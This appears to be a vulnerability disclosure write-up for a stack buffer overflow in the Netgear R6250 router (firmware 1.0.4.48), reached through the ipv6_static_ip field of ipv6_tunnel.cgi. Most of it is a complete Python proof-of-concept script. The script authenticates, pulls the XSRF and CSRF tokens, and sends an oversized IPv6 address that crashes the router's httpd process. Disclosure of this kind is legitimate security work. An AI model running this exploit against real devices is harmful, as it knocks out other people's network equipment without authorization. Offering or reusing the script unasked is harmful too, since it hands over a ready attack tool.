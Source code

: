 # Netgear R6250 Buffer Overflow Vulnerability

There is a buffer overflow vulnerability in the Netgear R6250 router with Firmware Version 1.0.4.48.

## Affected Product & Versions

Netgear R6250 V1.0.4.48  
(https://www.netgear.com/support/download/?model=R6250) Latest

## The Vulnerability

First, set the nvram value of ipv6_static_ip in the httpd binary at function sub_7E688() via ipv6_tunnel.cgi
![Alt text](1.png)

The function sub_1C998 in the binary file 'acos_service' retrives the value of 'ipv6_static_ip' from nvram. Finally, the value of 'ipv6_static_ip' from nvram is concatenated to the strcpy function, which leads to a buffer overflow vulnerability.
![Alt text](2.png)

## Recurring vulnerabilities and POC

First, boot the firmware via FirmAE:  
![Alt text](3.png)
Then, log in to 192.168.0.1 and configure the username and password:
![Alt text](4.png)
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of httpd process.

<pre>

import requests
import base64
import re

target = "192.168.1.1"
username = "admin"
passwd = "123"

username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/IPV6_tunnel.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/120.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close", "Referer": "http://" + target + "/IPV6_tunnel.htm", "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/120.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/IPV6_tunnel.htm", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/ipv6_tunnel.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply","login_type":"","relay":"static","WIp1":"1","WIp2":"1","WIp3":"1","WIp4":"1",
"DNSAssign":"0","IpAssign":"auto","ipv6_interfaceid_enable":"0","ipv6_interface_id":"",
"ipv6_static_ip":"9999999999999999999999999999999999999999.9999999999999999999999999999999999999999.9999999999999999999999999999999999999999.9999999999999999999999999999999999999999",
"ipv6_proto":"6to4","wan_proto":"static","wan_pppoe_dod":"0",
"wan_pptp_dod":"1","wan_l2tp_dod":"","ipv6rd_wan_dns_sel":"0","ipv6rd_wan_dns1_pri":"",
"ipv6rd_wan_dns1_sec":""}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/120.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/IPV6_tunnel.htm", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
print(response3)

print('end!!!')
</pre>

![Alt text](5.png)
![Alt text](6.png)
